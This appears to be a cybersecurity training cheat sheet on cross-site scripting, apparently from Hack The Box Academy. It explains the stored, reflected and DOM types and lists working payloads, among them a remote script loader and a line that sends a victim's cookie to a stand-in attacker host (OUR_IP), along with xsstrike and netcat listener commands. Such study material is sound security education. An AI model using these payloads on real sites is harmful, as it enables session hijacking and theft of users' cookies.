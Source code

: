 ![](https://i.imgur.com/5B0y60V.png)
# Cross-Site Scripting (XSS)

XSS vulnerabilities take advantage of a flaw in user input sanitization to "write" JavaScript code to the page and execute it on the client side, leading to several types of attacks.
XSS vulnerabilities are solely executed on the client-side and hence do not directly affect the back-end server. They can only affect the user executing the vulnerability. The direct impact of XSS vulnerabilities on the back-end server may be relatively low, but they are very commonly found in web applications, so this equates to a medium risk (`low impact + high probability = medium risk`), which we should always attempt to `reduce` risk by detecting, remediating, and proactively preventing these types of vulnerabilities.

![](https://i.imgur.com/8mmHl3Z.png)

## Types of XSS

There are three main types of XSS vulnerabilities:

|Type|Description|
|---|---|
|`Stored (Persistent) XSS`|The most critical type of XSS, which occurs when user input is stored on the back-end database and then displayed upon retrieval (e.g., posts or comments)|
|`Reflected (Non-Persistent) XSS`|Occurs when user input is displayed on the page after being processed by the backend server, but without being stored (e.g., search result or error message)|
|`DOM-based XSS`|Another Non-Persistent XSS type that occurs when user input is directly shown in the browser and is completely processed on the client-side, without reaching the back-end server (e.g., through client-side HTTP parameters or anchor tags)|

<span style="color:#00ff73">Stored XSS or Persistent XSS</span>. If our injected XSS payload gets stored in the back-end database and retrieved upon visiting the page, this means that our XSS attack is persistent and may affect any user that visits the page. Furthermore, Stored XSS may not be easily removable, and the payload may need removing from the back-end database.

# Commands

| Code                                                                                          | Description                       |
| --------------------------------------------------------------------------------------------- | --------------------------------- |
| **XSS Payloads**                                                                              |                                   |
| `<script>alert(window.origin)</script>`                                                       | Basic XSS Payload                 |
| `<plaintext>`                                                                                 | Basic XSS Payload                 |
| `<script>print()</script>`                                                                    | Basic XSS Payload                 |
| `<img src="" onerror=alert(window.origin)>`                                                   | HTML-based XSS Payload            |
| `<script>document.body.style.background = "#141d2b"</script>`                                 | Change Background Color           |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>` | Change Background Image           |
| `<script>document.title = 'HackTheBox Academy'</script>`                                      | Change Website Title              |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>`                | Overwrite website's main body     |
| `<script>document.getElementById('urlform').remove();</script>`                               | Remove certain HTML element       |
| `<script src="http://OUR_IP/script.js"></script>`                                             | Load remote script                |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>`               | Send Cookie details to us         |
| **Commands**                                                                                  |                                   |
| `python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"`                           | Run `xsstrike` on a url parameter |
| `sudo nc -lvnp 80`                                                                            | Start `netcat` listener           |
| `sudo php -S 0.0.0.0:80`                                                                      | Start `PHP` server                |

# Questions & Answers